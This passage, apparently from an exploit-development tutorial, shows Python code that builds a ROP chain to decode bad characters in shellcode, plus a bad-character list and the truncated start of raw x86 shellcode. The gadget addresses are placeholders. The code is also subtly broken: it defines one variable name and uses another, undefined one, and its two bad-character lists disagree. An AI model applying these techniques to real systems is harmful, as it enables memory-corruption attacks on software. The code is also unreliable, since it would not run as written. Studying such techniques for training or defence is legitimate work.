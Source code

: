     As the content of `value` needs to be popped into BL|AL|BH, it should be left-shifted by 8 bits. This action results in a value that aligns with the AL|BH register but also includes NULL bytes. To counteract the NULL byte issue, we'll carry out an OR operation with a static value of `0x11110011`. Ultimately, this outcome is inscribed into the ROP chain where it will be popped into another register during execution.
    
    This intricate procedure facilitates custom encoding. Moreover, it enables us to decode the shellcode prior to its transfer to the non-writable code cave.
    
    ```python
    # AL register = 0x11111100 (value = value | 0x11110011)
    # BH register = 0x11110011 (value = (value << 8) | 0x11110011)
    
    def decodeShellcode(badIndex, shellcode):
        badchars = bytearray(b"\x00\x20")
        addencodedchars = bytearray(b"\x01\x01")
        restoreRop = b""
        for i in range(len(badIndex)):
            if i == 0:
                offset = badIndex[i]
            else:
                offset = badIndex[i] - badIndex[i-1]
            neg_offset = (-offset) & 0xffffffff
    
            value = None
            for j in range(len(badchars)):
                if shellcode[badIndex[i]] == badchars[j]:
                    value = encodedchars[j]
                    value = (value << 8) | 0x11110011
    
            restoreRop += pack("<L", (0xFFFFFFFF)) # POP VALUE
            restoreRop += pack("<L", (neg_offset)) # offset to the next bad char
            restoreRop += pack("<L", (0xFFFFFFFF)) # SUB OFFSET
            restoreRop += pack("<L", (0xFFFFFFFF)) # POP VALUE
            restoreRop += pack("<L", (value)) # values in AL
            restoreRop += pack("<L", (0xFFFFFFFF)) # add byte [ecx], al ; ret ;
    
        return restoreRop
    ```
    
    Given that a pointer to the shellcode located on the stack is necessary for its modification (or decoding), the optimal position to install the decoding process would be subsequent to the alteration of the `lpBuffer` argument. We will need to continue adjusting our offset for our shellcode set during `LPBUFFER` as our ROP changes to ensure we land within our NOP slides. 
    
    ```python
    [....]
    
    ########### ROP ENCODER ###########
    ## Bad chars:  \0x00\x0d\x20\x2b\x3d\x5e
    shellc = b"\x89\xe5\x81\xc4\xf0\xf9\xff\xff\x31\xc9\x64\x8b\x71\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x5e\x08\x8b\x7e\x20\x8b\x36\x66\x39\x4f\x18\x75\xf2\xeb\x06\x5e\x89\x75\x04\xeb\x54\xe"
    